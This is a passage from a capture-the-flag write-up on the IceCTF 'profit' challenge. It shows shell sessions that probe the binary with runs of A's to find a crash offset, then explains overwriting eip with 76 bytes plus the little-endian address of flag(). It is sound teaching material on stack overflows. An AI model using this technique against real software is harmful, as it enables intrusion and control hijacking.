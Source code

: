 That leads us back to the other thing we need to know, the size of our buffer. For this I am going to exit `gdb` for a moment and use `python`. 

```zsh
gdb-peda$ q
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 64" | ./profit
Smashing the stack for fun and...?
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 128" | ./profit
Smashing the stack for fun and...?
[1]    12416 done                python -c "print 'A' * 128" | 
       12417 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 128" | ./profit
Smashing the stack for fun and...?
[1]    12416 done                python -c "print 'A' * 128" | 
       12417 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 120" | ./profit
Smashing the stack for fun and...?
[1]    12570 done                python -c "print 'A' * 120" | 
       12571 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 90" | ./profit
Smashing the stack for fun and...?
[1]    12687 done                python -c "print 'A' * 90" | 
       12688 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 70" | ./profit
Smashing the stack for fun and...?
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 80" | ./profit
Smashing the stack for fun and...?
[1]    12954 done                python -c "print 'A' * 80" | 
       12955 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 75" | ./profit
Smashing the stack for fun and...?
[1]    13079 done                python -c "print 'A' * 75" | 
       13080 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A' * 74" | ./profit
Smashing the stack for fun and...?
[ctf-xxxx@icectf-shell-2016 /home/profit]$ 

```

So what I did there was I used python to print out 64 A's in an attempt to figure out the buffer size. What I am looking for are `segmentation
faults`, as seen after I tried 128 A's. I then proceeded to alter that number in a sort of binary-search like manner until I determined that
the program will `segfault` at 75 A's but *not* at 74. This is good. We can be fairly certain that at 75 A's printed, we start to overwrite
*something* important in the program. Our goal, however, is to overwrite the programs `eip` or "Instruction Pointer" which in basic terms
simply points to the next location to exectute code once you hit a return (for our purposes here this definition is *"good enough"*). 
Something to note is that we generally work in multiples of 4 bytes though so we want to go up to 76 bytes (*Note* I kind of glossed over this
but each ascii character is a single byte in memory though that may vary between architectures).
You can take my word for this OR you use gdb and just keep copying and pasting patters until you recognize where you overwrite the 4 bytes of
`eip`.  Once you recognize the pattern you start to consistently overwrite `eip` at you know your *distance to eip* which is the number of
bytes you have to write beforehand. In this case as I said it is 76 bytes so 76 of *any* ascii character will work. Let's just keep using A's,
so we need 76 A's then the address of `flag`. At this point you need to know just a little bit about something called endianness 
(*NOTE* see "On Endianness" below) and that the address goes in little endian. So we can now craft our little exploit string using the format
of `<76 characters><little endian address of flag()>`. Remember from our earlier disassembly of flag that it starts at address 0x0804850b so
if we put everything together in a python string and pipe it to the program we get the following: